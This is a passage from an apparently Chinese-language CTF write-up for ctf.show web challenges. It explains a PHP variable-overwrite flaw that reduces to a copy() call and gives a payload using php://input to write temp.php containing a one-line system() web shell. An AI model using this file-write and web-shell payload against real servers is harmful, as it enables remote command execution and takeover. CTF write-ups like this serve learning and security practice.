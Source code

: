 

原来如此，变量覆盖，实际执行为

```php
copy(trim($_GET[url]),$_GET[cms]);
```

payload 如下：

```
http://779a5752-9391-41c9-922e-9a0220c976e4.challenge.ctf.show/?session=ctfshow&url=php://input&cms=temp.php

POST:
<?php system($_POST[x]);?>
```

<img src=".\图片\Snipaste_2023-08-09_21-22-47.png" alt="Snipaste_2023-08-09_21-22-47" style="zoom:80%;" />

## web482
